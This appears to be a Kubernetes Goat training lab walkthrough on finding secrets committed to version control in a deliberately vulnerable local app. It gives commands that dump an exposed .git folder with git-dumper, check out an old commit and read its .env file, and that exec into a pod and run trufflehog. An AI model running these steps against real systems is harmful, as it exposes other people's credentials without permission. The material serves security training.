






# Sensitive keys in codebases

## Scenario Information

Developers tend to commit sensitive information to version control systems. As we are moving towards CI/CD and GitOps systems, we tend to forgot to identify sensitive information in code and commits. Let's see if we can find something cool here!

* To get started with the scenario, navigate to [http://127.0.0.1:1230](http://127.0.0.1:1230)



## Scenario Solution

### Method 1

After reading the scenario description and application information. We have performed some discovery and analysis, then identified that it has `.git` folder exposed within the application.


* Clone the git repository locally by running the following command. Ensure you have set up [git-dumper](https://github.com/arthaud/git-dumper) locally before running the below command

```bash
python3 git-dumper.py http://localhost:1230/.git k8s-goat-git
```



* Now check the git log information

```bash
cd k8s-goat-git
git log
```



* Checkout an old commit for a specific version

```bash
git checkout 128029d89797957957b2a7198d8d159b239b34eb
ls -la
cat .env
```



### Method 2

Sometimes, we ideally have access to the pods or containers access and we can also perform analysis from within the container as well.

```bash
export POD_NAME=$(kubectl get pods --namespace default -l "app=build-code" -o jsonpath="{.items[0].metadata.name}")
kubectl exec -it $POD_NAME -- sh
```



* Then we can perform analysis on `.git` folder by running utilities like trufflehog

```bash
trufflehog .
```



## Miscellaneous

TBD
